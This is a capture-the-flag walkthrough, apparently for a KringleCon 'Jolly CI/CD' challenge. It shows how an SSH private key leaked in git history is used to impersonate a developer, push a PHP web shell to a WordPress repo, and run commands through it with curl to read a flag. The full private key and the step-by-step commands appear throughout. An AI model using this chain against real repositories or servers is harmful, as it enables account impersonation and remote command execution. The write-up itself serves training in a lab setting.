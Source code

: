 # Jolly CI/CD

<table class=MsoTableGrid border=1 cellspacing=0 cellpadding=0 width=850 >
 <tr align= Center>
  <td width=808 colspan=2 valign=top style='width:605.85pt;border:solid windowtext 1.0pt;
  padding:0in 5.4pt 0in 5.4pt'>
  <p class=MyNormalStyle><img border=0 width=19 height=20 id="Picture 360"
  src="../../images/blog_images/image094.png">Jolly
  CI/CD &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<img border=0
  width=27 height=25 id="Picture 44"
  src="../../images/blog_images/image039.png">Elfen
  Ring &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<img
  border=0 width=25 height=24 id="Picture 362"
  src="../../images/blog_images/image105.png"
  alt="A picture containing clipart&#10;&#10;Description automatically generated">Rippin
  Proudboot</p>
  </td>
 </tr>
 <tr style='height:100.6pt'>
  <td width=290 rowspan=2 valign=top style='width:217.8pt;border:solid windowtext 1.0pt;
  border-top:none;padding:0in 5.4pt 0in 5.4pt;height:100.6pt'>
  <p class=MyNormalStyle><img border=0 width=275 height=174 id="Picture 366"
  src="../../images/blog_images/image106.png"
  alt="A picture containing text&#10;&#10;Description automatically generated"></p>
  </td>
  <td width=517 valign=top style='width:388.05pt;border-top:none;border-left:
  none;border-bottom:solid windowtext 1.0pt;border-right:solid windowtext 1.0pt;
  padding:0in 5.4pt 0in 5.4pt;height:100.6pt'>
  <p class=MyNormalStyle><img border=0 width=459 height=152 id="Picture 365"
  src="../../images/blog_images/image107.png"
  alt="A screenshot of a computer&#10;&#10;Description automatically generated with medium confidence"></p>
  </td>
 </tr>
 <tr style='height:39.85pt'>
  <td width=517 valign=top style='width:388.05pt;border-top:none;border-left:
  none;border-bottom:solid windowtext 1.0pt;border-right:solid windowtext 1.0pt;
  padding:0in 5.4pt 0in 5.4pt;height:39.85pt'>
  <p class=MyNormalStyle><u>Hints<br>
  </u>1) The thing about Git is that every step of development is accessible 
  even steps you didn't mean to take! git log can show code skeletons.</p>
  <p class=MyNormalStyle>2) Gitlab repo <a
  href="http://gitlab.flag.net.internal/rings-of-powder/wordpress.flag.net.internal.git">http://gitlab.flag.net.internal/rings-of-powder/wordpress.flag.net.internal.git</a></p>
  <p class=MyNormalStyle>3) If you find a way to impersonate another identity,
  you might try re-cloning a repo with their credentials.</p>
  </td>
 </tr>
</table>


<table class=MsoTableGrid border=1 cellspacing=0 cellpadding=0 width=798
 style='width:598.5pt; margin-xxxleft:-63.25pt;border-collapse:collapse;border:
 none'>
 <tr>
  <td width=798 valign=top style='width:598.5pt;border:solid windowtext 1.0pt;
  padding:0in 5.4pt 0in 5.4pt'>
  <p class=TableRowBold>Clone the git repo and get into the directory where it
  was cloned into</p>
  </td>
 </tr>
 <tr>
  <td width=798 valign=top style='width:598.5pt;border:solid windowtext 1.0pt;
  border-top:none;padding:0in 5.4pt 0in 5.4pt'>
  ```python
  git clone http://gitlab.flag.net.internal/rings-of-powder/wordpress.flag.net.internal.git
  cd wordpress.flag.net.internal
  ```
  </td>
 </tr>
 <tr>
  <td width=798 valign=top style='width:598.5pt;border:solid windowtext 1.0pt;
  border-top:none;padding:0in 5.4pt 0in 5.4pt'>
  <img src="../../images/blog_images/image108.png">
  </td>
 </tr>
 <tr>
  <td width=798 valign=top style='width:598.5pt;border:solid windowtext 1.0pt;
  border-top:none;padding:0in 5.4pt 0in 5.4pt'>
  <p class=TableRowBold>Get git logs. Shows a commit with potential mistake
  with whoops comment</p>
  </td>
 </tr>
 <tr>
  <td width=798 valign=top style='width:598.5pt;border:solid windowtext 1.0pt;
  border-top:none;padding:0in 5.4pt 0in 5.4pt'>
  ```python
  git log --oneline
  ```
  </p>
  </td>
 </tr>
 <tr>
  <td width=798 valign=top style='width:598.5pt;border:solid windowtext 1.0pt;
  border-top:none;padding:0in 5.4pt 0in 5.4pt'>
  <img src="../../images/blog_images/image109.png">
  </td>
 </tr>
 <tr>
  <td width=798 valign=top style='width:598.5pt;border:solid windowtext 1.0pt;
  border-top:none;padding:0in 5.4pt 0in 5.4pt'>
  <p class=TableRowBold>Show the log with commits. Looks like
  sporx@kringlecon.com committed with &quot;whoops&quot; comment.</p>
  </td>
 </tr>
 <tr>
  <td width=798 valign=top style='width:598.5pt;border:solid windowtext 1.0pt;
  border-top:none;padding:0in 5.4pt 0in 5.4pt'>
  ```python
  git log
  ```
  </td>
 </tr>
 <tr>
  <td width=798 valign=top style='width:598.5pt;border:solid windowtext 1.0pt;
  border-top:none;padding:0in 5.4pt 0in 5.4pt'>
  <p class=MsoNormal style=' margin-xxxbottom:0in;line-height:normal'><img
  border=0 width=624 height=94 id="Picture 371"
  src="../../images/blog_images/image110.png"
  alt="A picture containing graphical user interface&#10;&#10;Description automatically generated"></p>
  </td>
 </tr>
 <tr>
  <td width=798 valign=top style='width:598.5pt;border:solid windowtext 1.0pt;
  border-top:none;padding:0in 5.4pt 0in 5.4pt'>
  <p class=TableRowBold>Show what was committed under that id e19f653bde9ea3de6af21a587e41e7a909db1ca5<br>
  Looks like user has committed their the private and public key. So we will
  use these to clone the repo and commit changes impersonating the user</p>
  </td>
 </tr>
 <tr>
  <td width=798 valign=top style='width:598.5pt;border:solid windowtext 1.0pt;
  border-top:none;padding:0in 5.4pt 0in 5.4pt'>
  ```python
  git show e19f653bde9ea3de6af21a587e41e7a909db1ca5
  ```
  </td>
 </tr>
 <tr>
  <td width=798 valign=top style='width:598.5pt;border:solid windowtext 1.0pt;
  border-top:none;padding:0in 5.4pt 0in 5.4pt'>
  <img id="Picture 372" src="../../images/blog_images/image111.png"></p>
  </td>
 </tr>
 <tr>
  <td width=798 valign=top style='width:598.5pt;border:solid windowtext 1.0pt;
  border-top:none;padding:0in 5.4pt 0in 5.4pt'>
  <p class=TableRowBold>Create .ssh folder and create the private key (.deploy)
  and public key(.deploy.pub) from the contents above</p>
  </td>
 </tr>
 <tr>
  <td width=798 valign=top style='width:598.5pt;border:solid windowtext 1.0pt;
  border-top:none;padding:0in 5.4pt 0in 5.4pt'>
  ```python
  mkdir /home/samways/.ssh
  cd /home/samways/.ssh
  nano .deploy
  ```
  <p style='margin:0in'><span style='font-size:11.0pt;font-family:"Calibri",sans-serif'>-----BEGIN
  OPENSSH PRIVATE KEY-----</span></p>
  <p style='margin:0in'><span style='font-size:11.0pt;font-family:"Calibri",sans-serif'>b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW</span></p>
  <p style='margin:0in'><span style='font-size:11.0pt;font-family:"Calibri",sans-serif'>QyNTUxOQAAACD+wLHSOxzr5OKYjnMC2Xw6LT6gY9rQ6vTQXU1JG2Qa4gAAAJiQFTn3kBU5</span></p>
  <p style='margin:0in'><span style='font-size:11.0pt;font-family:"Calibri",sans-serif'>9wAAAAtzc2gtZWQyNTUxOQAAACD+wLHSOxzr5OKYjnMC2Xw6LT6gY9rQ6vTQXU1JG2Qa4g</span></p>
  <p style='margin:0in'><span style='font-size:11.0pt;font-family:"Calibri",sans-serif'>AAAEBL0qH+iiHi9Khw6QtD6+DHwFwYc50cwR0HjNsfOVXOcv7AsdI7HOvk4piOcwLZfDot</span></p>
  <p style='margin:0in'><span style='font-size:11.0pt;font-family:"Calibri",sans-serif'>PqBj2tDq9NBdTUkbZBriAAAAFHNwb3J4QGtyaW5nbGVjb24uY29tAQ==</span></p>
  <p style='margin:0in'><span style='font-size:11.0pt;font-family:"Calibri",sans-serif'>-----END
  OPENSSH PRIVATE KEY-----</span></p>
  <p style='margin:0in'><span style='font-size:11.0pt;font-family:"Calibri",sans-serif'>&nbsp;</span></p>
  ```python
  nano .deploy.pub
  ```
  <p style='margin:0in'><span style='font-size:11.0pt;font-family:"Calibri",sans-serif'>ssh-ed25519
  AAAAC3NzaC1lZDI1NTE5AAAAIP7AsdI7HOvk4piOcwLZfDotPqBj2tDq9NBdTUkbZBri
  sporx@kringlecon.com</span></p>
  <p class=MsoNormal style=' margin-xxxbottom:0in;line-height:normal'>&nbsp;</p>
  </td>
 </tr>
 <tr>
  <td width=798 valign=top style='width:598.5pt;border:solid windowtext 1.0pt;
  border-top:none;padding:0in 5.4pt 0in 5.4pt'>
  <p class=TableRowBold>Set the full read and write permission only for the
  owner</p>
  </td>
 </tr>
 <tr>
  <td width=798 valign=top style='width:598.5pt;border:solid windowtext 1.0pt;
  border-top:none;padding:0in 5.4pt 0in 5.4pt'>
  ```python
  chmod 600 .deploy
  chmod 600 .deploy.pub 
  ls -lah
  ```
  </td>
 </tr>
 <tr>
  <td width=798 valign=top style='width:598.5pt;border:solid windowtext 1.0pt;
  border-top:none;padding:0in 5.4pt 0in 5.4pt'>
  <p style='margin:0in'><img border=0 width=486 height=96 id="Picture 373"
  src="../../images/blog_images/image112.png"
  alt="Text&#10;&#10;Description automatically generated"></p>
  </td>
 </tr>
 <tr>
  <td width=798 valign=top style='width:598.5pt;border:solid windowtext 1.0pt;
  border-top:none;padding:0in 5.4pt 0in 5.4pt'>
  <p class=TableRowBold>Set the git config email and name</p>
  </td>
 </tr>
 <tr>
  <td width=798 valign=top style='width:598.5pt;border:solid windowtext 1.0pt;
  border-top:none;padding:0in 5.4pt 0in 5.4pt'>
   ```python
   git config --global user.email "sporx@kringlecon.com"
   git config --global user.name "knee-oh"
   ```
  </td>
 </tr>
 <tr>
  <td width=798 valign=top style='width:598.5pt;border:solid windowtext 1.0pt;
  border-top:none;padding:0in 5.4pt 0in 5.4pt'>
  <p style='margin:0in'><img border=0 width=624 height=56 id="Picture 374"
  src="../../images/blog_images/image113.png"
  alt="Text&#10;&#10;Description automatically generated"></p>
  </td>
 </tr>
 <tr>
  <td width=798 valign=top style='width:598.5pt;border:solid windowtext 1.0pt;
  border-top:none;padding:0in 5.4pt 0in 5.4pt'>
  <p class=TableRowBold>Start the SSH agent</p>
  </td>
 </tr>
 <tr>
  <td width=798 valign=top style='width:598.5pt;border:solid windowtext 1.0pt;
  border-top:none;padding:0in 5.4pt 0in 5.4pt'>
    ```python
    eval "$(ssh-agent -s)"
    ```
  </td>
 </tr>
 <tr>
  <td width=798 valign=top style='width:598.5pt;border:solid windowtext 1.0pt;
  border-top:none;padding:0in 5.4pt 0in 5.4pt'>
  <p style='margin:0in'><span style='font-size:11.0pt;font-family:"Calibri",sans-serif'><img
  border=0 width=385 height=31 id="Picture 376"
  src="../../images/blog_images/image114.png"></span></p>
  </td>
 </tr>
 <tr>
  <td width=798 valign=top style='width:598.5pt;border:solid windowtext 1.0pt;
  border-top:none;padding:0in 5.4pt 0in 5.4pt'>
  <p class=TableRowBold>Add the SSH private key to the SSH agent</p>
  </td>
 </tr>
 <tr>
  <td width=798 valign=top style='width:598.5pt;border:solid windowtext 1.0pt;
  border-top:none;padding:0in 5.4pt 0in 5.4pt'>
  ```python
  ssh-add .deploy
  ```
  </td>
 </tr>
 <tr>
  <td width=798 valign=top style='width:598.5pt;border:solid windowtext 1.0pt;
  border-top:none;padding:0in 5.4pt 0in 5.4pt'>
  <p style='margin:0in'><span style='font-size:11.0pt;font-family:"Calibri",sans-serif'><img
  border=0 width=399 height=31 id="Picture 378"
  src="../../images/blog_images/image115.png"></span></p>
  </td>
 </tr>
 <tr>
  <td width=798 valign=top style='width:598.5pt;border:solid windowtext 1.0pt;
  border-top:none;padding:0in 5.4pt 0in 5.4pt'>
  <p class=TableRowBold>Clone the git repo again with SSH using the private key
  of the user sporx@kringlecon.com to a directory named
  &quot;wordpress.flag.net.internal2&quot;</p>
  </td>
 </tr>
 <tr>
  <td width=798 valign=top style='width:598.5pt;border:solid windowtext 1.0pt;
  border-top:none;padding:0in 5.4pt 0in 5.4pt'>
  ```python
  git@gitlab.flag.net.internal:rings-of-powder/wordpress.flag.net.internal.git
  wordpress.flag.net.internal2
  ```
  </td>
 </tr>
 <tr>
  <td width=798 valign=top style='width:598.5pt;border:solid windowtext 1.0pt;
  border-top:none;padding:0in 5.4pt 0in 5.4pt'>
 <img src="../../images/blog_images/image116.png"></p>
  </td>
 </tr>
 <tr>
  <td width=798 valign=top style='width:598.5pt;border:solid windowtext 1.0pt;
  border-top:none;padding:0in 5.4pt 0in 5.4pt'>
  <p class=TableRowBold>The repo is now cloned to the &quot;wordpress.flag.net.internal2&quot;
  directory</p>
  </td>
 </tr>
 <tr>
  <td width=798 valign=top style='width:598.5pt;border:solid windowtext 1.0pt;
  border-top:none;padding:0in 5.4pt 0in 5.4pt'>
  ```python
  ls wordpress.flag.net.internal2
  ```
  </td>
 </tr>
 <tr>
  <td width=798 valign=top style='width:598.5pt;border:solid windowtext 1.0pt;
  border-top:none;padding:0in 5.4pt 0in 5.4pt'>
  <img border=0 src="../../images/blog_images/image117.png">
  </td>
 </tr>
 <tr>
  <td width=798 valign=top style='width:598.5pt;border:solid windowtext 1.0pt;
  border-top:none;padding:0in 5.4pt 0in 5.4pt'>
  <p class=TableRowBold>Create a new backdoor to execute commands on the remote
  host (wordpress web server, wordpress.flag.net.internal). This will take a
  querystring cat=&lt;URL encoded command&gt;</p>
  </td>
 </tr>
 <tr>
  <td width=798 valign=top style='width:598.5pt;border:solid windowtext 1.0pt;
  border-top:none;padding:0in 5.4pt 0in 5.4pt'>
  ```python
  nano shell.php
  ```
  </td>
 </tr>
 <tr>
  <td width=798 valign=top style='width:598.5pt;border:solid windowtext 1.0pt;
  border-top:none;padding:0in 5.4pt 0in 5.4pt'>
  <p style='margin:0in'><span style='font-size:11.0pt;font-family:"Calibri",sans-serif'><img
  border=0 width=510 height=45 id="Picture 382"
  src="../../images/blog_images/image118.png"></span></p>
  </td>
 </tr>
 <tr>
  <td width=798 valign=top style='width:598.5pt;border:solid windowtext 1.0pt;
  border-top:none;padding:0in 5.4pt 0in 5.4pt'>
  <p class=TableRowBold>Add the newly saved shell.php and commit to the repo</p>
  </td>
 </tr>
 <tr>
  <td width=798 valign=top style='width:598.5pt;border:solid windowtext 1.0pt;
  border-top:none;padding:0in 5.4pt 0in 5.4pt'>
  ```python 
  git add .
  git commit
  ```
  </td>
 </tr>
 <tr>
  <td width=798 valign=top style='width:598.5pt;border:solid windowtext 1.0pt;
  border-top:none;padding:0in 5.4pt 0in 5.4pt'>
  <img border=0 src="../../images/blog_images/image119.png">
  </td>
 </tr>
 <tr>
  <td width=798 valign=top style='width:598.5pt;border:solid windowtext 1.0pt;
  border-top:none;padding:0in 5.4pt 0in 5.4pt'>
  <p class=TableRowBold>Push the changes to the remote repository</p>
  </td>
 </tr>
 <tr>
  <td width=798 valign=top style='width:598.5pt;border:solid windowtext 1.0pt;
  border-top:none;padding:0in 5.4pt 0in 5.4pt'>
  ```python
  git push
  ```
  </td>
 </tr>
 <tr>
  <td width=798 valign=top style='width:598.5pt;border:solid windowtext 1.0pt;
  border-top:none;padding:0in 5.4pt 0in 5.4pt'>
  <p style='margin:0in'><img border=0 src="../../images/blog_images/image120.png"
  alt="Text&#10;&#10;Description automatically generated"></p>
  </td>
 </tr>
 <tr>
  <td width=798 valign=top style='width:598.5pt;border:solid windowtext 1.0pt;
  border-top:none;padding:0in 5.4pt 0in 5.4pt'>
  <p class=TableRowBold>Now we can execute arbitrary commands using shell.php.
  Below showing using ls command which also lists newly uploaded shell.php</p>
  </td>
 </tr>
 <tr>
  <td width=798 valign=top style='width:598.5pt;border:solid windowtext 1.0pt;
  border-top:none;padding:0in 5.4pt 0in 5.4pt'>
  ```python
  curl http://wordpress.flag.net.internal/shell.php?cmd=ls
  ```
  </td>
 </tr>
 <tr>
  <td width=798 valign=top style='width:598.5pt;border:solid windowtext 1.0pt;
  border-top:none;padding:0in 5.4pt 0in 5.4pt'>
  <img border=0   src="../../images/blog_images/image121.png"></p>
  </td>
 </tr>
 <tr>
  <td width=798 valign=top style='width:598.5pt;border:solid windowtext 1.0pt;
  border-top:none;padding:0in 5.4pt 0in 5.4pt'>
  <p class=TableRowBold>Getting contents of root (/) showing flag.txt</p>
  </td>
 </tr>
 <tr>
  <td width=798 valign=top style='width:598.5pt;border:solid windowtext 1.0pt;
  border-top:none;padding:0in 5.4pt 0in 5.4pt'>
  ```python
  curl http://wordpress.flag.net.internal/shell.php?cmd=ls%20%2F%2F
  ```
  </td>
 </tr>
 <tr>
  <td width=798 valign=top style='width:598.5pt;border:solid windowtext 1.0pt;
  border-top:none;padding:0in 5.4pt 0in 5.4pt'>
  <p style='margin:0in'><img border=0 src="../../images/blog_images/image122.png"
  alt="Text&#10;&#10;Description automatically generated"></p>
  </td>
 </tr>
 <tr>
  <td width=798 valign=top style='width:598.5pt;border:solid windowtext 1.0pt;
  border-top:none;padding:0in 5.4pt 0in 5.4pt'>
  <p class=TableRowBold>Getting the contents of that /flag.txt</p>
  </td>
 </tr>
 <tr>
  <td width=798 valign=top style='width:598.5pt;border:solid windowtext 1.0pt;
  border-top:none;padding:0in 5.4pt 0in 5.4pt'>
  ```python
  curl http://wordpress.flag.net.internal/shell.php?cmd=cat%20%2Fflag.txt
  ```
  </td>
 </tr>
 <tr>
  <td width=798 valign=top style='width:598.5pt;border:solid windowtext 1.0pt;
  border-top:none;padding:0in 5.4pt 0in 5.4pt'>
  <p style='margin:0in'><img border=0 src="../../images/blog_images/image123.png"
  alt="Chart&#10;&#10;Description automatically generated"></p>
  </td>
 </tr>
 <tr>
  <td width=798 valign=top style='width:598.5pt;border:solid windowtext 1.0pt;
  border-top:none;padding:0in 5.4pt 0in 5.4pt'>
  <p class=TableRowBold>Answer : oI40zIuCcN8c3MhKgQjOMN8lfYtVqcKT</p>
  </td>
 </tr>
 <tr>
  <td width=798 valign=top style='width:598.5pt;border:solid windowtext 1.0pt;
  border-top:none;padding:0in 5.4pt 0in 5.4pt'>
  <p class=TableRowBold>The objective is now completed and we get 100 coins as
  well</p>
  <p class=TableRowBold><img border=0 width=287 height=55 id="Picture 388"
  src="../../images/blog_images/image124.png"
  alt="Text&#10;&#10;Description automatically generated with medium confidence"><img
  border=0 width=266 height=57 id="Picture 22"
  src="../../images/blog_images/image125.png"></p>
  </td>
 </tr>
 <tr>
  <td width=798 valign=top style='width:598.5pt;border:solid windowtext 1.0pt;
  border-top:none;padding:0in 5.4pt 0in 5.4pt'>
  <p class=TableRowBold>At this point we have recovered the Elfen ring</p>
  </td>
 </tr>
 <tr>
  <td width=798 valign=top style='width:598.5pt;border:solid windowtext 1.0pt;
  border-top:none;padding:0in 5.4pt 0in 5.4pt'>
  <p class=TableRowBold align=center style='text-align:center'><img border=0
  width=547 height=99 id="Picture 476"
  src="../../images/blog_images/image126.png"></p>
  </td>
 </tr>
</table>